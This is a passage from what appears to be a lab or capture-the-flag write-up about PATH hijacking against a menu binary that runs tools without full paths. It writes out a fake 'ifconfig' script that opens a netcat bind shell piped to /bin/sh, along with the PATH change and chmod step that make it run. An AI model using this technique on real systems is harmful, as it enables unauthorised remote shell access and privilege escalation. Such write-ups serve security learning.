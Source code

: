     .fini
    .rodata
    .eh_frame_hdr
    .eh_frame
    .init_array
    .fini_array
    .jcr
    .dynamic
    .got.plt
    .data
    .bss
    .comment
    ```
    
    - This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
- we can create executable file called curl or uname or any tool in menu binary to the binary will run it
- I will create a file called “ifconfig” and it’s content is:

```
#!/bin/sh
echo "Done" >> /tmp/IsDone.txt
mkfifo /tmp/f ; nc -lnvp 9090 < /tmp/f | /bin/sh > /tmp/f 2>&1
```

- I tried to use nano but it isn't installed so I used vim
- then we should make it executable using `chmod +x ifconfig` , and append /tmp directory to the PATH env
    
    ![Untitled](images/Untitled%2013.png)
    
- if we run `/usr/bin/menu` and choose 3 to run `ifconfig`
    
    ![Untitled](images/Untitled%2014.png)
    
    - we can see that netcat listener started so we can connect using our kali Linux machine
    